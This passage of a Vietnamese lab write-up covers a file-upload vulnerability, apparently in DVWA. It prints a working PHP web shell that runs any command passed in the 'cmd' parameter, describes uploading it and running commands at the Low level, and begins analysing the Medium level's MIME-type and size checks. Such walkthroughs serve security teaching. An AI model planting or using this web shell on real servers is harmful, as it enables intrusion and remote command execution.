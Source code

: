    Để khai thác lỗ hổng này, tôi đã chuẩn bị một Payload simple reverse shell như sau:
   ```php
    <!DOCTYPE html>
    <html>
    <head>
        <title>PHP Web Shell</title>
    </head>
    <body>
        <form method="GET" name="command_form">
        <input type="text" name="cmd" placeholder="Nhập lệnh..." size="80" autofocus>
        <input type="submit" value="Thực thi">
        </form>

        <pre>
    <?php
    if (isset($_GET['cmd'])) {
        $command = $_GET['cmd'];
        system($command . ' 2>&1');
    }
    ?>
        </pre>
    </body>
    </html>
    ```

    Tiến hành upload file *web_shell.php* lên **server**

    ![](./images/11-40-20.png)

    Truy cập vào đường dẫn vừa upload file *web_shell.php* trên **server** thao túng param **cmd**

    ![](./images/11-47-11.png)

    ![](./images/11-49-29.png)

    > Kết quả là thao túng thành công nội dung file *web_shell.php*

2. Mức độ **Medium-level-security**

   Kiểm tra *View Source* ta thấy được so với mức **Low**, mức **Medium** đã có bước cải thiện về mặt bảo mật, nhưng vẫn chưa an toàn tuyệt đối.

   ![](./images/13-11-00.png)

   ```php
   $uploaded_type == "image/jpeg" || $uploaded_type == "image/png"
   ```
   → Chỉ cho phép file có kiểu MIME `image/jpeg` hoặc `image/png`.

   ```php
   $uploaded_size < 100000
   ```
   → Giới hạn kích thước nhỏ hơn ~100 KB để ngăn file lớn hoặc độc hại.
